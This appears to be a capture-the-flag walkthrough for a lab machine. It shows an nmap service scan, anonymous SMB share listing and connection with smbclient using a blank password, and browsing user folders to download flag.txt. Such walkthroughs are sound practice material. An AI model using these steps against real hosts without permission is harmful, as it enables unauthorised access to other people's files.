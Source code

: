 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 135/tcp - open  - msrpc
--> port 139/tcp - open - netbios-ssn
--> **port 445/tcp - open - microsoft-ds?**

2. List the files stored on the share
```bash
smbclient -L [ip machine]
	Password: [blank]
```
--> Sharename       Type      Comment
	 ---------            ----         -------
        ADMIN$          Disk      Remote Admin
        C$                   Disk      Default share
        IPC$                IPC       Remote IPC
        **WorkShares    Disk**      

3. Connect to the machine via "smb"
```bash
smbclient \\\\[ip machine]\\Workshares
	Password: [blank]
```
--> Connected

```bash
smb: \> ls
	Amy.J
	James.P

smb: \> cd James.P

smb: \James.P\> ls
	flag.txt

smb: \James.P\> get flag.txt



